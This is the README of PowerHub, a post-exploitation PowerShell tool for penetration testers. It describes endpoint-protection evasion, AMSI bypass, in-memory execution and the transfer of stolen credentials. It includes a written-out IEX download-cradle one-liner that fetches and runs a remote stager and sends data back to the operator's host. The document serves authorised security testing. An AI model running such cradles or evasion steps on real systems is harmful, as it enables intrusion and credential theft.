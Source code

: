 PowerHub
========

PowerHub is a convenient post exploitation tool for PowerShell which aids a
pentester in transferring data, in particular code which may get flagged by
endpoint protection. Check out the
[Wiki](https://github.com/AdrianVollmer/PowerHub/wiki/)! Features:

* Fileless
* Stateless
* Cert pinning
* String "obfuscation" by RC4 encryption
* Choose your AMSI Bypass


![PowerHub Webapp](https://github.com/AdrianVollmer/PowerHub/blob/master/img/powerhub-webapp.png)

During an engagement where you have a test client available, one of the
first things you want to do is run PowerSploit. So you need to download the
files, messing with endpoint protection, disable the execution policy, etc.
PowerHub provides an (almost) one-click-solution for this. Oh, and you can
also run arbitrary binaries (PE and shell code) entirely in-memory using
PowerSploit's modules, which is sometimes useful to bypass application
whitelisting.

Your loot (Kerberos tickets, passwords, etc.) can be easily transferred back
either as a file or a text snippet, via the command line or the web
interface. PowerHub also helps with collaboration in case you're a small
team.

Here is a simple example (grab information about local groups with PowerView
and transfer it back):

```
PS C:\Users\avollmer> $K=new-object net.webclient;IEX $K.downloadstring('http://192.168.11.2:8080/0?t=http&f=r&a=reflection');
  _____   _____  _  _  _ _______  ______ _     _ _     _ ______
 |_____] |     | |  |  | |______ |_____/ |_____| |     | |_____]
 |       |_____| |__|__| |______ |    \_ |     | |_____| |_____]
                            written by Adrian Vollmer, 2018-2021
Run 'Help-PowerHub' for help
PS C:\Users\avollmer> lhm powerview
Name                                Type N  Loaded
----                                ---- -  ------
ps1/PowerSploit/Recon/PowerView.ps1 ps1  29   True
PS C:\Users\avollmer> Get-LocalGroup | pth -Name groups.json
```


Installation
============

PowerHub itself does not need to be installed. Just execute `powerhub.py`.
However, there are a few dependencies. They are listed in the
[requirements.txt](https://github.com/AdrianVollmer/PowerHub/blob/master/requirements.txt).
Install them either via `pip3 install --user -r requirements.txt` or use a
virtual environment.

If you do want to install PowerHub, you should do `pip3 install --user .`.

Python2 is not supported.

For building the payloads, you need the MinGW GCC and Mono C# compilers. On
Debian-like systems, you can install them with `apt-get install mono-mcs
gcc-mingw-w64-x86-64 gcc-mingw-w64-i686`.

venv
----

`venv` can be installed on Debian-like systems by `apt install
python3-venv`.

Run `python3 -m venv env` to create a virtual environment, then use `source
env/bin/activate` to activate it. Now run `pip3 install --user .`
to install the depencendies inside the virtual environment.

pipenv
------

Alternatively, you can use `pipenv`. `pipenv` can be installed on
Debian-like systems by `apt install pipenv`.

Run `pipenv install` once in the PowerHub directory, then `pipenv shell` to
activate the virtual environment.


Usage
=====

PowerHub has one mandatory argument: the callback host (can be an IP
address). You should also use `--auth <user>:<pass>`, otherwise, a randomly
generated password will be used for basic authentication. The switch
`--no-auth` disables basic authentication which is *not recommended*. The
callback host name is used by the stager to download the payload. If the
callback port or path differ from the default, it can also be changed.

Read `./powerhub.py --help` and the [Wiki](https://github.com/AdrianVollmer/PowerHub/wiki/Usage) for details.


Credits
=======

PowerHub is partially based on the awesome work of zc00l, @am0nsec, mar10,
p3nt4, @SkelSec. And of course, it would be nothing without @harmj0y,
@mattifestation and the many other contributors to
[PowerSploit](https://github.com/PowerShellMafia/PowerSploit).

Thanks!

Author
======

Adrian Vollmer, 2018-2022

Disclaimer
==========

Use at your own risk. Do not use without full consent of everyone involved.
For educational purposes only.
